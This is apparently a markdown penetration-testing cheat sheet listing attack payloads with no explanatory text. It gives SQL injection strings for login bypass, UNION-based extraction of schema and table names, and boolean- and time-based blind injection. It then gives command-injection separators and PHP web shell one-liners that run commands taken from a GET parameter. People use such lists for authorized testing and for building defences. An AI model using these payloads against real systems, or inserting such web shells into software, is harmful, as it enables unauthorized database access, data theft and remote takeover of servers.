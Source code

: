 #### **Authentication Bypass**
```sql
-- Basic bypass
' OR '1'='1
' OR 1=1--
') OR ('1'='1

-- Advanced bypass
' OR 1=1 LIMIT 1--
admin'--
admin'/*
```

#### **Union-based Injection**
```sql
-- Basic union
' UNION SELECT 1,2,3--
' UNION SELECT user(),database(),version()--

-- Information extraction
' UNION SELECT table_name,column_name,1 FROM information_schema.columns--
' UNION SELECT schema_name,1,2 FROM information_schema.schemata--
```

#### **Blind SQL Injection**
```sql
-- Boolean-based
' AND (SELECT SUBSTRING(@@version,1,1))='5'--
' AND ASCII(SUBSTRING((SELECT database()),1,1))>64--

-- Time-based
' AND (SELECT * FROM (SELECT(SLEEP(5)))bAKL) AND 'vRxe'='vRxe
'; WAITFOR DELAY '0:0:5'--
```

### **Remote Code Execution (RCE)**

#### **Command Injection**
```bash
# Basic separators
; whoami
| whoami
&& whoami
|| whoami

# Encoded payloads
%0a whoami
%0d whoami
```

#### **PHP Code Injection**
```php
<?php system($_GET['cmd']); ?>
<?php exec($_GET['cmd']); ?>
<?php shell_exec($_GET['cmd']); ?>
<?php passthru($_GET['cmd']); ?>
```
